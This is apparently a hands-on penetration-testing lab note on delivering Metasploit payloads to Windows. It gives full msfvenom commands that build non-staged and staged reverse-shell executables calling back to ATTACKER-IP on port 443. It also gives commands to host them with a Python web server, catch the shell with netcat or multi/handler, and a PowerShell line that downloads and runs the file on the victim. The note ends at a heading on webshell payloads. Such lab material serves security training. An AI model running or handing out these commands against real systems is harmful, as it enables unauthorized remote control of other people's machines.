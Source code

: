 Hands-on "non-staged payloads"

Scenario

* use msfvenom to create a nonstaged.exe with shell_reverse_tcp
* host the nonstaged.exe file using python webserver
* use netcat to setup  listener on port 443
* download file onto victim using powershell and execute it

Attacker

```shell
# 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER-IP LPORT=443 -f exe -o nonstaged.exe
python3 -m http.server 80
nc -nvlp 443
```

Victim

```pwsh
iwr -uri http://ATTACKER-IP/nonstaged.exe -Outfile nonstaged.exe
```

Hands-on "staged payloads" with Metasploit multi/handlers module

Scenario

Requires **msf6 > use multi/handler** module

* use msfvenom to create a staged.exe with shell/reverse_tcp 
* host the nonstaged.exe file using python webserver
* use multi/handler to setup listener with payload shell/reverse_tcp 
* download file onto victim using powershell and execute it

Attacker

```shell
msfvenom -p windows/x64/shell/reverse_tcp LHOST=ATTACKER-IP LPORT=443 -f exe -o staged.exe
python3 -m http.server 80

msf6 exploit(multi/http/apache_normalize_path_rce) >

use multi/handler
set payload windows/x64/shell/reverse_tcp
set LHOST ATTACKER-IP
set LPORT 443
run
```

Victim

```pwsh
iwr -Uri http://ATTACKER-IP/staged.exe -Out staged.exe
./staged.exe

```

Hand-on "webshell payloads" with Metasploit multi/handlers module
